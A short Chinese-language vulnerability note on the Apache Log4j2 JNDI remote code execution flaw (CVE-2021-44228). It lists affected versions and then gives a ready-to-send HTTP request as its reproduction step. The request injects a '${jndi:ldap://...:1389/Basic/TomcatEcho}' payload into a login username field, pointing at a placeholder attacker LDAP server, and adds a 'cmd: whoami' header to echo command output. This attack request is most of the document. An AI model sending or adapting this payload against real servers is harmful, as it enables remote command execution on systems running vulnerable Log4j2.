

# Apache Log4j2 JNDI 远程命令执行漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2是一款使用非常广泛的Java日志框架。2021年12月9日，Apache Log4j2爆出存在远程代码执行漏洞，由于Apache Log4j2广泛地应用在各种Web程序中，该漏洞涉及用户量较大，危害性非常之高，漏洞影响版本为2.0~2.14.1。

## 漏洞影响

<a-checkbox checked>2.0~2.14.1</a-checkbox></br>

<a-checkbox checked>使用此依赖的JAVA应用</a-checkbox></br>

## 网络测绘

<a-checkbox checked>暂无确切语法</a-checkbox></br>

## 漏洞复现

参数点发送请求


```go
POST /api/2.0/login HTTP/1.1
Host:
Cookie: JSESSIONID_AV=567CEDA964EE4D5DA8B7FC8C90912B01
Content-Length: 86
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
cmd: whoami
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"${jndi:ldap://xxx.xxx.xxx.xxx:1389/Basic/TomcatEcho}","password":"admin"}
```

